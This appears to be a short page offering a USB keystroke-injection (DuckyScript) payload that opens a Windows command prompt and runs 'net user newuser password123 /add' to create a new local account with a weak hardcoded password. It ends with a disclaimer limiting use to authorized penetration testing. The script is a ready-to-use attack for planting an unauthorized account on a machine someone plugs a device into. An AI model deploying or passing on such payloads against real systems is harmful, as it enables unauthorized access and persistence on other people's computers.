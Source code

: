 # Create a New User 

This script creates a new user on a Windows machine.

```
DELAY 500
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING net user newuser password123 /add
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.
